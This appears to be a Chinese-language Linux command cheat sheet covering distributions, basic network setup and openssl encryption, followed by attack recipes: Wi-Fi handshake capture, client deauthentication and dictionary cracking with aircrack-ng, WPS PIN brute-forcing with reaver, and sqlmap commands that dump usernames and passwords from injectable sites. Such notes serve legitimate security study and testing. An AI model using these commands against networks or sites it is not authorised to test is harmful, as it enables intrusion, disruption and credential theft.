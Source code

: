 # [Home](../README.md)
## [Linux](https://www.apiref.com/linux-zh/linux-command-manual.html)

![linux](https://www.runoob.com/wp-content/uploads/2014/06/d0c50-linux2bfile2bsystem2bhierarchy.jpg)

### Linux发行版
- [Ubuntu](http://www.ubuntu.com/)
- [Fedora](http://fedoraproject.org/)
- [Debian](http://www.debian.org/)
- [CentOS](http://www.centos.org/)
- [Arch](https://www.archlinux.org/)
- [Kali](https://www.kali.org/)
- [ElementaryOS](https://elementary.io/zh_CN/)
- [Nitrux](https://nxos.org/)

### 基本操作
```shell
# 关闭防火墙
systemctl stop firewalld.service

# 网卡配置路径
/etc/sysconfig/network-scripts	

# 重启网卡
systemctl restart network
```
### openssl
> 加密

```shell
echo '明文' | openssl aes-128-cbc -k "key" -base64
```

>解密

```shell
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | openssl aes-128-cbc -d -k "key" -base64
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | tr ' ' '\n' | openssl aes-128-cbc -d -k "key" -base64
```

```shell
#Standard commands
asn1parse         ca                ciphers           cms
crl               crl2pkcs7         dgst              dhparam
dsa               dsaparam          ec                ecparam
enc               engine            errstr            gendsa
genpkey           genrsa            help              list
nseq              ocsp              passwd            pkcs12
pkcs7             pkcs8             pkey              pkeyparam
pkeyutl           prime             rand              rehash
req               rsa               rsautl            s_client
s_server          s_time            sess_id           smime
speed             spkac             srp               storeutl
ts                verify            version           x509

#Message Digest commands (see the `dgst' command for more details)
blake2b512        blake2s256        gost              md4
md5               mdc2              rmd160            sha1
sha224            sha256            sha3-224          sha3-256
sha3-384          sha3-512          sha384            sha512
sha512-224        sha512-256        shake128          shake256
sm3

#Cipher commands (see the `enc' command for more details)
aes-128-cbc       aes-128-ecb       aes-192-cbc       aes-192-ecb
aes-256-cbc       aes-256-ecb       aria-128-cbc      aria-128-cfb
aria-128-cfb1     aria-128-cfb8     aria-128-ctr      aria-128-ecb
aria-128-ofb      aria-192-cbc      aria-192-cfb      aria-192-cfb1
aria-192-cfb8     aria-192-ctr      aria-192-ecb      aria-192-ofb
aria-256-cbc      aria-256-cfb      aria-256-cfb1     aria-256-cfb8
aria-256-ctr      aria-256-ecb      aria-256-ofb      base64
bf                bf-cbc            bf-cfb            bf-ecb
bf-ofb            camellia-128-cbc  camellia-128-ecb  camellia-192-cbc
camellia-192-ecb  camellia-256-cbc  camellia-256-ecb  cast
cast-cbc          cast5-cbc         cast5-cfb         cast5-ecb
cast5-ofb         des               des-cbc           des-cfb
des-ecb           des-ede           des-ede-cbc       des-ede-cfb
des-ede-ofb       des-ede3          des-ede3-cbc      des-ede3-cfb
des-ede3-ofb      des-ofb           des3              desx
rc2               rc2-40-cbc        rc2-64-cbc        rc2-cbc
rc2-cfb           rc2-ecb           rc2-ofb           rc4
rc4-40            seed              seed-cbc          seed-cfb
seed-ecb          seed-ofb          sm4-cbc           sm4-cfb
sm4-ctr           sm4-ecb           sm4-ofb           zlib
```
### wifi密码跑字典
```shell
airmon-ng check kill			#杀死进程
airmon-ng start wlan0			#是wlan0网卡开起monitor mode
airodump-ng wlan0mon			#查看附件wifi
airodump-ng --bssid mac地址 -c CH值 -w crack wlan0mon		#开始抓包

aireplay-ng --deauth 10 -a mac地址 -c 抓到的mac地址 wlan0mon
aircrack-ng -w 密码字典路径 crack-01.cap

airmon-ng stop wlan0mon		#关闭wlan0网卡monitor mode
```
### wifi跑pin码
```shell
airmon-ng start wlan0
wash -i wlan0mon
reaver -i wlan0mon -b mac地址 -S -N -vv -c CH值
```

### sqlmap工具
```shell
sqlmap -u url --dbs --current-user	
sqlmap -u url --dbms mysql -D dbName --tables
sqlmap -u url --dbms mysql -T admin --columns
sqlmap -u url --dbms mysql -T admin -C field1, field2 --dump

sqlmap -u url?id=1
sqlmap -u url?id=1 --dbs
sqlmap -u url?id=1 --current-db		#列出当前使用的数据库名
sqlmap -u url?id=1 --tables -D "db_name"
sqlmap -u url?id=1 --columns -T "tb_name" -D "db_name"
sqlmap -u url?id=1 --dump -C "username, password" -T "tb_name" -D "db_name"

sqlmap -u url?id=1 --is-dbs #判断该注入点是否有管理员权限，true表示管理员
```
